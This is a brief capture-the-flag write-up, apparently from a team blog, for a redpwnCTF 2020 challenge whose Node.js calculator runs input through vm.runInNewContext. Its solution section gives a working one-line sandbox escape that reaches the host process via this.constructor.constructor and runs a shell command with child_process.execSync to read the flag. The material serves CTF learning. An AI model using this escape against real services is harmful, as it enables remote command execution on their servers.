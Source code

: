 ```yaml
---
layout: post
title: "CaaSiNO"
author: "vishalananth"
---
```


Who needs regex for sanitization when we have VMs?!?!

The flag is at /ctf/flag.txt

nc 2020.redpwnc.tf 31273

**Files**
- [calculator.js]({{site.baseurl}}/assets/CaaSiNO/calculator.js)

## Solution

We are given a calculator.js file, We see that, whatever input we give its run using ```vm.runInNewContext```. So we try to exploit this to read the flag from their filesystem.
Giving the following as input gets us the flag

```
const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').execSync('cat /ctf/flag.txt').toString();
```
